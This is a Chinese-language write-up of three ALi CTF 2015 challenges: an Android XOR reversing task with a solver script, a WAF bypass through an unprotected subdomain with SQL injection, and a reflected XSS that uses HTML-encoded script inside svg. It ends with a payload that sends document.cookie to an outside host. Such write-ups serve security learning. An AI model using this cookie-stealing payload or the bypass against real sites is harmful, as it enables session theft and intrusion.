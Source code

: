 # ALi CTF 2015 write up

Authors:

EMcnevilmoon@gmail.com

Ricterricterzheng@gmail.com

[附件](http://drops.wooyun.org/wp-content/uploads/2015/04/%E9%99%84%E4%BB%B6.tar.gz)

0x00 Cake
=====

Cake 是一题 Android 题，具体流程就是一个输入一个字符串然后，初始化一个长度为16的数组，然后将字符串与这个数组 xor 。所以我们只需要再 xor 一下就 ok 了。

就是看代码逆向下，关键是有两个 Key 找对就 ok 直接上代码

```
a = [0, 3, 13, 19, 85, 5, 15, 78, 22, 7, 7, 68, 14, 5, 15, 42]
b = 'bobdylan'
s = ''
i = 0
for x in a:
    s+= chr(x ^ ord(b[i % len(b)]))
    i += 1
print s

```

0x01 渗透绕过WAF1
=====

2、绕过云 WAF1 是一题绕过 WAF 题，这个 WAF 写的很死，所以就要用其他办法咯～

通过打开的弹窗提示，需要在`.alictf.com`的子域下面做，于是 fuzz 子域名：

![enter image description here](http://drops.javaweb.org/uploads/images/b95fd0335355e26369c4564409eb36b6d2e4405d.jpg)

得出`video.alictf.com`，打开发现没有 waf，注入点为`id`。

![enter image description here](http://drops.javaweb.org/uploads/images/fcfb1981979a60b0e64ce593fdd0782ad52123ef.jpg)

0x02 前端初赛题1
=====

反射型 XSS，通过 ph 牛的[文章](http://www.leavesongs.com/PENETRATION/XDCTF-2014-Writeup.html)，`<svg>`标签内`<script>`的内容可以 HTML encode，成功弹窗。

![enter image description here](http://drops.javaweb.org/uploads/images/b714a78245ecd55ba188b4897b901341d0b36cf5.jpg)

之后 payload 如下：

```
var i = new Image();
i.src = "http://ricter.me:9999/?" + document.cookie;

```
